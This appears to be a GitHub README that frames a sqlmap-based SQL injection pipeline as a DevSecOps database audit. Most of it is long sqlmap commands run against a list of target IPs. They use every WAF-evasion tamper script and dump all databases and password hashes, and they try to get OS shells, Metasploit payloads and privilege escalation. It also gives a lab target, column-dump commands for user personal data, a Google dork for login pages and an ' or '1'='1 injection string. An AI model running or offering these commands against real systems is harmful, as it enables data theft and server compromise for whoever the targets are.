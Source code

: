 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev}

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#

## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version

#

## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD with metasploit

    nano /root/SA/ad/SA_sqli.sh

#

    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1337 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=3 --timeout=37 --retries=3 --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 7 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --dependencies --unstable --alert=x -v 7

#

## Create the Pipeline CI/CD without metasploit

    nano /root/SA/ad/SA_sqli.sh

#

    sudo apt install neofetch -y
    neofetch
    sudo sqlmap -f -b -o -m ~/SA/ad/ad_ips -t ~/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1337 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=3 --timeout=37 --retries=3  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 7 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --tmp-dir=~/.sqlmap/history --beep --dependencies --unstable --alert=x -v 7

    sqlmap -u 'http://imagetok.htb:32531/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --beep --cleanup --fresh-queries --threads=10

## Start & Monitoring of the Pipeline CI/CD

       cd ~/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh

#

       tail -f /root/.sqlmap/output/sqlmap_scan

## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format)
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#

#

#

# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.

    --dbms=MySQL

    --no-cast

    --no-escape

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell

    --sql-shell


    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump


    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k

    :)

inurl:website.test/login.asp

' or '1'='1
